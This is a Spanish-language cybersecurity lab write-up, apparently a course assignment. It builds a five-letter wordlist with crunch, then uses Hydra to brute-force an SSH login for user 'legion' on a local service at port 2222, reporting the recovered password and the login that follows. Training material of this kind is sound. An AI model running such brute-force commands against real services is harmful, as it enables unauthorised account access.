



# HABILIDADES PRÁCTICAS EN EL CIBERESPACIO

**CC DIEGO EDISON CABUYA PADILLA - MY YERSON ALEJANDRO TORRES BUENO**

## TALLER – CREACIÓN DE DICCIONARIOS CON CRUNCH Y USO DE HYDRA

---

### 1. Creación del diccionario

- **Longitud**: 5 letras  
- **Primera letra**: `E` (mayúscula)  
- **Las otras cuatro letras**: letras minúsculas normales (`a–z`)

### Comando:

```bash
crunch 5 5 -t E@@@@ -o diccionario1.txt
```

### Desglose de parámetros:

| Parámetro           | Significado                                                                 |
|---------------------|------------------------------------------------------------------------------|
| `5 5`               | Longitud exacta: mínimo 5, máximo 5 caracteres                               |
| `-t E@@@@`          | Patrón (template): `E` fijo + 4 letras (`@` = letras minúsculas)             |
| `-o diccionario1.txt` | Archivo de salida donde se guardará el diccionario generado               |


---


## 2. Ataque por fuerza bruta utilizando Hydra

### Comando:

```bash
hydra -l legion -P /home/kali/diccionario1.txt -t 10 -f -V ssh://localhost:2222
```

### Desglose de parámetros:

| Elemento                            | Función                                                                                       |
|-------------------------------------|-----------------------------------------------------------------------------------------------|
| `hydra`                             | Ejecuta la herramienta **Hydra**, utilizada para ataques de fuerza bruta                      |
| `-l legion`                         | Define el nombre de usuario objetivo del ataque (en este caso, `legion`)                     |
| `-P /home/kali/diccionario1.txt`    | Ruta al diccionario de contraseñas a probar (una por línea)                                  |
| `-t 10`                             | Número de hilos (threads) simultáneos; permite probar múltiples combinaciones a la vez       |
| `-f`                                | Finaliza el ataque tan pronto se encuentre una contraseña válida                             |
| `-V`                                | Modo verbose completo: muestra en pantalla cada intento de combinación                       |
| `ssh://localhost:2222`              | Protocolo (`ssh`), host (`localhost`) y puerto (`2222`) del servicio objetivo                |

### Resultado del ataque:

- **Usuario**: `legion`  
- **Password**: `Esdeg`


---

## 3. Ingreso por SSH y verificación

### Comando:

```bash
ssh legion@localhost -p 2222
```

### Desglose:

| Componente           | Descripción técnica                                                                           |
|----------------------|-----------------------------------------------------------------------------------------------|
| `ssh`                | Comando para iniciar una conexión remota segura mediante el protocolo SSH.                   |
| `legion@localhost`   | Indica el usuario objetivo (`legion`) y el host remoto (`localhost`).                        |
| `-p 2222`            | Especifica que la conexión se realizará por el puerto `2222` en lugar del 22 por defecto.    |


---

**Fin del taller.**
